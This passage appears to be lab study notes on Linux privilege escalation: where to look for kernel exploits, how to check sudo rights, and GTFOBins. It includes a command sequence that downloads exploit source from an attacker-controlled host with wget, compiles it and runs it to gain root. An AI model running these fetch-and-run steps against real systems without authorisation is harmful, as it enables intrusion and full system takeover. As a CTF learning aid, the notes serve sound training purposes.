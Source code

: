 **Research sources:**  

1. Based on your findings, you can use Google to search for an existing exploit code.
2. Sources such as [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves) can also be useful.
3. Another alternative would be to use a script like LES (Linux Exploit Suggester) but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

**Hints/Notes:**

1. Being too specific about the kernel version when searching for exploits on Google, Exploit-db, or searchsploit
2. Be sure you understand how the exploit code works BEFORE you launch it. Some exploit codes can make changes on the operating system that would make them unsecured in further use or make irreversible changes to the system, creating problems later. Of course, these may not be great concerns within a lab or CTF environment, but these are absolute no-nos during a real penetration testing engagement.
3. Some exploits may require further interaction once they are run. Read all comments and instructions provided with the exploit code.
4. You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively.

- As we got ssh logon as a normal user without privileges, we have to get them.
- We find on searchsploit a kernel exploit for the kernel Ubuntu 14.04
- When we find it, we create a python server to upload it: `python3 -m http.server 8080`
- Then on the target machine we do this to get the file:
	- `cd /tmp`
	- `wget http://<attck-ip>:8080/kernel.c`
	- `gcc kernel.c -o pwned`
	- `./pwned`

# Privilege Escalation: Sudo
The sudo command, by default, allows you to run a program with root privileges. Under some conditions, system administrators may need to give regular users some flexibility on their privileges. For example, a junior SOC analyst may need to use Nmap regularly but would not be cleared for full root access. In this situation, the system administrator can allow this user to only run Nmap with root privileges while keeping its regular privilege level throughout the rest of the system.

Any user can check its current situation related to root privileges using the `sudo -l` command.

[https://gtfobins.github.io/](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.

## Leverage application functions

Some applications will not have a known exploit within this context. Such an application you may see is the Apache2 server.

In this case, we can use a "hack" to leak information leveraging a function of the application. As you can see below, Apache2 has an option that supports loading alternative configuration files (`-f` : specify an alternate ServerConfigFile).
